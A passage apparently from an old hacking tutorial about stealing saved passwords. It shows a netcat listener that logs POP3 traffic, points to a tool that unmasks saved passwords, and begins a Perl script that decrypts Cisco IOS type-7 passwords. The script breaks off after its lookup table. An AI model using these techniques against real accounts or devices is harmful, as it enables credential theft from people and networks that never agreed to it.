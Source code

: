  

C:\>nc –l –p 110 > log.txt

 

Well, actually all methods described in this method to steal the passwords stored by those software which have the ‘Save Password’ feature are not really needed.  Almost all password including, Windows Login, Outlook Express, DUN and a few others will easily get unmasked, by using programs, like: Revelation

Such a program will basically convert the ‘ *’s to plaintext. You can get it at: Revelation.

 

Cracking the CISCO IOS Password
 

The following Perl Script, demonstrates how to decrypt the CISCO IOS passwords.

_____________________________

 

#!/usr/bin/perl -w

# $Id: ios7decrypt.pl,v 1.1 1998/01/11 21:31:12 mesrik Exp $

#

# Credits for orginal code and description hobbit@avian.org,

# SPHiXe, .mudge et al. and for John Bashinski <jbash@CISCO.COM>

# for Cisco IOS password encryption facts.

#

# Use for any malice or illegal purposes strictly prohibited!

#

 

@xlat = ( 0x64, 0x73, 0x66, 0x64, 0x3b, 0x6b, 0x66, 0x6f, 0x41,

          0x2c, 0x2e, 0x69, 0x79, 0x65, 0x77, 0x72, 0x6b, 0x6c,

          0x64, 0x4a, 0x4b, 0x44, 0x48, 0x53 , 0x55, 0x42 );

 

while (<>) {
